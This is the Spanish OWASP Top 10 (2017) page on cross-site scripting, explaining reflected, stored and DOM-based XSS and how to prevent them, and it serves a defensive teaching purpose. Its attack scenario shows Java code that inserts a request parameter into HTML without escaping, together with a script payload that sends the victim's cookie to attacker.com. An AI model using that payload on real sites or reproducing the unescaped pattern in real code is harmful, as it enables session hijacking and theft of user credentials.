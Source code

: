 # A7:2017 Secuencia de Comandos en Sitios Cruzados (XSS)

| Agentes de amenaza/Vectores de ataque | Debilidades de seguridad         |      Impactos       |
| -- | -- | -- |
| Nivel de acceso : Explotabilidad 3    | Prevalencia 3 : Detectabilidad 3 | Técnico 2 : Negocio |
| Existen herramientas automatizadas pueden detectar y explotar las tres formas de XSS, y también se encuentran disponibles kits de explotación gratuitos. | XSS es la segunda vulnerablidad más frecuente en OWASP Top 10, y se encuentra en alrededor de dos tercios de todas las aplicaciones. Las herramientas automatizadas pueden detectar algunos problemas XSS en forma automática, particularmente en tecnologías maduras como PHP, J2EE / JSP, y ASP.NET. | El impacto de XSS es moderado para el caso de XSS Reflejado y XSS en DOM, y severa para XSS Almacenado, que permite ejecutar secuencias de comandos en el navegador de la víctima, para robar credenciales, secuestrar sesiones, o la instlación de software malicioso en el equipo de la víctima. |

## ¿La aplicación es vulnerable?

Existen tres formas usuales de XSS para atacar a los navegadores de los usuarios:

- **XSS Reflejado**: La aplicación o API utiliza datos suministrados por un usuario sin ser validados o codificados apropiadamente como parte del HTML de salida o cuando no existe un cabezal que establezca la política de seguridad de contenido ([CSP](https://cheatsheetseries.owasp.org/cheatsheets/Content_Security_Policy_Cheat_Sheet.html). Un ataque exitoso puede permitir al atacante ejecutar comandos arbitrarios HTML y Javascript en el navegador de la víctima. Típicamente el usuario deberá interactuar con un enlace, o alguna otra página controlada por el atacante, como un ataque del tipo pozo de agua, publicidad maliciosa, o similar.
- **XSS Almacenado**: La aplicación o API almacena datos proporcionados por el usuario sin validar ni sanear, la que posteriormente es entregada a otro usuario o un administrador. XSS Almacenado es usualmente considerado como de riesgo de nivel alto o crítico.
- **XSS Basados en DOM**: Frameworks en JavaScript, aplicaciones de página única o APIs que dinámicamente incluyen datos controlables por un atacante son vulnerables al DOM XSS. Idealmente, se debe evitar enviar datos controlables por el atacante a APIs no seguras.

Típicamente los ataques XSS incluyen el robo de la sesión, apropiación de la cuenta, evasión de autentificación de múltiples pasos, reemplazo de DIV o degradación (como troyanos de autentificación), ataques contra el navegador del usuario como la descarga de software malicioso, grabadores de tecleo, y otros tipos de ataques al lado cliente.


## ¿Como prevenirlo?

Prevenir XSS requiere mantener los datos no confiables separados del contenido activo del navegador.

- Utilizar marcos de trabajo seguros que por diseño automáticamente codifiquen el contenido para prevevenir XSS, como en Ruby 3.0 o React JS.
- Codificar datos de requerimientos HTTP no confiables en el contexto de la salida de HTML (cuerpo, atributos, JavaScript, CSS, o URL) resolverán las vulnerabilidades del tipo XSS Reflejado y XSS Almacenado. La hoja de trucos [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html) tiene detalles de las técnicas de codificación de datos requeridas.
- Aplicar codificación sensitiva al contexto cuando se modifica el documento en el navegador en el lado cliente, ayuda a prevevenir DOM XSS. Cuando esta técnica no se puede aplicar, técnicas similares de codificación sensitiva se pueden aplicar a las APIs del navegador, como se explica en la hoja de trucos [OWASP DOM based XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html).
- Habilitar una Política de Seguridad de Contenido [Content Security Policy (CSP)](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) es una defensa profunda para la mitigación de vulnerabilidades XSS, asumiendo que no hay otras vulnerabilidades que permitan colocar código malicioso vía inclusión de archivos locales como sobreescritura de caminos (path traversal overwrite), o bibliotecas vulnerables de fuentes conocidas, como redes de distribución de contenidos (CDN) o bibliotecas locales.


## Ejemplos de escenarios de ataques

**Escenario #1**: La aplicación utiliza datos no confiables en la construcción del siguiente código HTML sin validarlos o codificarlos:

```
   (String) page += "<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

El atacante modifica el parámetro “CC” en el navegador a:

```
><script>document.location='https://attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

Este ataque causa que el identificador de sesión de la víctima sea enviado al sitio web del atacante, permitiendo al atacante secuestrar la sesión actual del usuario.

**Note**: Atacantes pueden también utilizar XSS para anular cualquier defensa contra Falsificación de Peticiones en Sitios Cruzados (CSRF) que la aplicación pueda utilizar.

## Referencias (en Inglés)

### OWASP

- [Controles Proactivos de OWASP: #3 Codificación de datos](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [Controles Proactivos de OWASP: #4 Validación de datos](https://owasp.org/www-project-proactive-controls/v3/en/c4-encode-escape-data)
- [Estándar de Verificación de Seguridad en Aplicaciones de OWASP: V5](https://owasp.org/www-project-application-security-verification-standard/)
- [Guía de Pruebas de OWASP: Pruebas para XSS Reflejados](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/01-Testing_for_Reflected_Cross_Site_Scripting)
- [Guía de Pruebas de OWASP: Pruebas para XSS Almacenados](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/07-Input_Validation_Testing/02-Testing_for_Stored_Cross_Site_Scripting)
- [Guía de Pruebas de OWASP: Pruebas para XSS basados en DMO](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/01-Testing_for_DOM-based_Cross_Site_Scripting)
- [Hoja de ayuda de OWASP: Prevención de XSS](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [Hoja de ayuda de OWASP: Prevención de XSS basado en DOM](https://cheatsheetseries.owasp.org/cheatsheets/DOM_based_XSS_Prevention_Cheat_Sheet.html)
- [Hoja de ayuda de OWASP: Evación de filtros de XSS](https://owasp.org/www-community/xss-filter-evasion-cheatsheet)

### Externas

- [CWE-79 Inapropiada neutralización de entradas de datos suministradas por usuarios](https://cwe.mitre.org/data/definitions/79.html)
- [PortSwigger: Plantillas para la inyección del lado del cliente](https://portswigger.net/knowledgebase/issues/details/00200308_clientsidetemplateinjection)
